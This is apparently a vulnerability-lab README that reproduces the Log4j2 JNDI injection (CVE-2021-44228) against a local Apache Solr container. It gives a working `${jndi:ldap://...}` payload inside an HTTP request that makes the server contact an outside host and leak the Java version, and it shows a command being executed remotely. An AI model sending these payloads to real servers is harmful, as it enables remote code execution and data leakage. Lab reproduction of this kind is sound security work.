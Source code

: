 # Apache Log4j2 lookup feature JNDI injection (CVE-2021-44228)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Log4j 2 is an upgrade to Log4j that provides significant improvements over its predecessor, Log4j 1.x, and provides many of the improvements available in Logback while fixing some inherent problems in Logback's architecture.

On Dec 2021, a 0-day exploit in the Apache Log4j2 was discovered. Log4j’s JNDI support has not restricted what names could be resolved. Some protocols like `rmi:` and `ldap:` are unsafe or can allow remote code execution.

References:

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649

## Vulnerability Environment

Apache Log4j2 is not a certain web service, it is just a third-party library, so we can use a application that depend on Log4j2 to demonstrate how to exploit this vulnerability.

Execute following command to start a Apache Solr 8.11.0, which use Log4j 2.14.1:

```
docker compose up -d
```

After server start, browse `http://your-ip:8983` to see the admin portal of Apache Solr.

## Exploit

Simply, put the payload `${jndi:dns://${sys:java.version}.example.com}` as the admin action that can trigger the JNDI query.

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close


```

Query will be shown at the DNS log:

![](1.png)

Because the target JDK version is below 8u191, we can use `rmi://` or `ldap://` to run the Java bytecode directly.

We use the [Java Chains](https://github.com/vulhub/java-chains) tool for vulnerability reproduction. To start Java Chains, we access the [Quick Start](https://java-chains.vulhub.org/docs/guide). Finally, referring to the [JNDI Basic Exploitation Guide](https://java-chains.vulhub.org/docs/module/jndi#jndibasicpayload), we set the command to be executed as `touch /tmp/success` and generate the JNDI LDAP URL Payload. Then, we replace it into the data packet mentioned above to exploit the vulnerability.

![](2.png)

As you can see, `touch /tmp/success` is succesful executed:

![](3.png)
